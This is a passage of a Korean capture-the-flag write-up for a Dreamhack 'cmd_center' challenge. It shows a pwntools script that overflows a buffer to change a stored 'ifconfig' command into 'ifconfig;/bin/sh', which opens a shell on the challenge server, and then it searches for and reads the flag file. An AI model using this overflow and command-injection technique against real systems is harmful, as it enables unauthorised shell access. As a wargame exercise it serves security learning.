 기존 `0x7fffffffe0d0` 주소에 있던 "ifconfig"라는 문장이 "ifconfig;/bin/sh"로 수정됨을 확인

## 3. 문제 풀이 코드

```
from pwn import *

# center_name + padding + cmd_ip
payload = b'\x90'*24 + b'\x00'*8 + b'ifconfig;/bin/sh' 

r = remote('host3.dreamhack.games', 12277)

r.sendline(payload)

r.interactive()
```
쉘이 실행됨을 확인

- 쉘 실행 이후
    `find / -name "flag"`를 입력하여 플래그 파일을 검색
    
    `/home/cmd_center/flag`

    `cat ./flag`를 입력